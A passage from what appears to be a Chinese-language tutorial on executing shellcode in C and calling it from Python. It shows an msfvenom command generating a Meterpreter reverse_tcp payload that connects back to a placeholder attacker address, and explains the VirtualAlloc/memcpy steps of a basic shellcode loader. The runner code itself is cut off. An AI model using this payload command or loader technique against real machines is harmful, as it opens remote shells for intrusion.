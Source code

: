 注意这里有坑，如果你的python是64位的，生成dll 文件时debug一定要选x64，不然运行py文件调用dll时会报错，32位python就是默认的x86

!\[图片\](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

!\[图片\](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

### 2. C编译并执行shellcode

我们先用msf生成一段C的shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=x.x.x.x lport=8080 -f c
```

打开visual studio创建一个空项目Project1，在源文件中新建一个shell.c文件

下面的代码是网上公开的最简单的一段执行shellcode的代码

```
#include <Windows.h>
```

unsigned char buf\[\]是定义一个无符号字符串数组变量buf，shellcode就是把刚才msf中生成的shellcode带引号和分号拷贝过来

!\[图片\](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

我们主要来看下 main函数中相关函数作用和参数

VirtualAlloc()函数的作用是申请一块内存空间

**参数：**

LPVOID VirtualAlloc{

LPVOID lpAddress, // 要分配的内存区域的起始地址

DWORD dwSize, // 分配的大小

DWORD flAllocationType, // 分配的类型

DWORD flProtect // 该内存的初始保护属性

};

MEM_COMMIT | MEM_RESERVE 表示为指定地址空间提交物理内存或保留指定地址空间，不分配物理内存

PAGE_EXECUTE_READWRITE  表示可读写可执行

Memcpy() 内存拷贝函数，函数的功能是从源内存地址的起始位置开始拷贝若干个字节到目标内存地址中
